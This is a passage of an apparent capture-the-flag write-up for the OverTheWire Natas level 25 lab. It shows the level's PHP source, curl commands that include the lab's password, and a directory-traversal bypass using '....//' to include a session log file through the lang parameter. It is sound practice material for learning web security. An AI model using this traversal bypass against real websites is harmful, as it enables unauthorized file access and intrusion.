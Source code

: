         closedir($handle);
        return $listoffiles;
    } 
    
    function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
?>

<h1>natas25</h1>
<div id="content">
<div align="right">
<form>
<select name='lang' onchange='this.form.submit()'>
<option>language</option>
<?php foreach(listFiles("language/") as $f) echo "<option>$f</option>"; ?>
</select>
</form>
</div>

<?php  
    session_start();
    setLanguage();
    
    echo "<h2>$__GREETING</h2>";
    echo "<p align=\"justify\">$__MSG";
    echo "<div align=\"right\"><h6>$__FOOTER</h6><div>";
?>
<p>
```

Let's create a session with easy ID - "art-vandelay", which will also create the logfile `logs/natas25_art-vandelay.log`.

```
abs@MacBookPro OverTheWire % curl "http://natas25.natas.labs.overthewire.org//index.php" -u natas25:ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws -s -H "Cookie: PHPSESSID=art-vandelay"
<h2>Quote</h2><p align="justify">You see, no one's going to help you Bubby, because there isn't anybody out there to do it. No one. We're all just complicated arrangements of atoms and subatomic particles - we don't live. But our atoms do move about in such a way as to give us identity and consciousness. We don't die; our atoms just rearrange themselves. There is no God. There can be no God; it's ridiculous to think in terms of a superior being. An inferior being, maybe,
...
```

The language is under "/var/www/natas/natas25/language/" and so does the logs "/var/www/natas/natas25/logs".

So by doing: "../logs/natas25_art-vandelay.log", the from "language" (like in the safeinclude()), I should be able to find the log file.

Because I cant use ../, I'll use the good-old ....//, which will be replaced to ../ in runtime:
```
abs@MacBookPro OverTheWire % curl "http://natas25.natas.labs.overthewire.org//index.php?lang=....//logs/natas25_art-vandelay.log" -u natas25:ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws -s -H "Cookie: PHPSESSID=art-vandelay"
[25.09.2025 12::12:48] curl/8.7.1 "Directory traversal attempt! fixing request."
<br />
<b>Notice</b>:  Undefined variable: __GREETING in <b>/var/www/natas/natas25/index.php</b> on line <b>80</b><br />
<h2></h2><br />